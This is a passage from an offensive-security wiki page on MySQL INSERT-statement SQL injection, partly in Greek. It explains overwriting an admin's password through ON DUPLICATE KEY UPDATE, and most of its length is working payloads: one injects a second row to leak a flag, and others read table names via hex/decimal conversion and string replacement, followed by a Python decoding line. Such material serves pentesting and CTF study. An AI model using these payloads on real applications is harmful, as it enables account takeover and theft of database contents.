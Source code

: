 * The query attempts to insert two rows: one for `generic_user@example.com` and another for `admin_generic@example.com`.
* If the row for `admin_generic@example.com` already exists, the `ON DUPLICATE KEY UPDATE` clause triggers, instructing MySQL to update the `password` field of the existing row to "bcrypt\_hash\_of\_newpassword".
* Consequently, authentication can then be attempted using `admin_generic@example.com` with the password corresponding to the bcrypt hash ("bcrypt\_hash\_of\_newpassword" represents the new password's bcrypt hash, which should be replaced with the actual hash of the desired password).

### Εξαγωγή πληροφοριών

#### Δημιουργία 2 λογαριασμών ταυτόχρονα

When trying to create a new user and username, password and email are needed:
```
SQLi payload:
username=TEST&password=TEST&email=TEST'),('otherUsername','otherPassword',(select flag from flag limit 1))-- -

A new user with username=otherUsername, password=otherPassword, email:FLAG will be created
```
#### Χρησιμοποιώντας δεκαδικό ή δεκαεξαδικό

Με αυτή την τεχνική μπορείτε να εξάγετε πληροφορίες δημιουργώντας μόνο 1 λογαριασμό. Είναι σημαντικό να σημειωθεί ότι δεν χρειάζεται να σχολιάσετε τίποτα.

Χρησιμοποιώντας **hex2dec** και **substr**:
```sql
'+(select conv(hex(substr(table_name,1,6)),16,10) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
Για να αποκτήσετε το κείμενο μπορείτε να χρησιμοποιήσετε:
```python
__import__('binascii').unhexlify(hex(215573607263)[2:])
```
Χρησιμοποιώντας **hex** και **replace** (και **substr**):
```sql
'+(select hex(replace(replace(replace(replace(replace(replace(table_name,"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

'+(select hex(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'

#Full ascii uppercase and lowercase replace:
'+(select hex(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr(table_name,1,7),"j"," "),"k","!"),"l","\""),"m","#"),"o","$"),"_","%"),"z","&"),"J","'"),"K","`"),"L","("),"M",")"),"N","@"),"O","$$"),"Z","&&")) FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name ASC limit 0,1)+'
```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

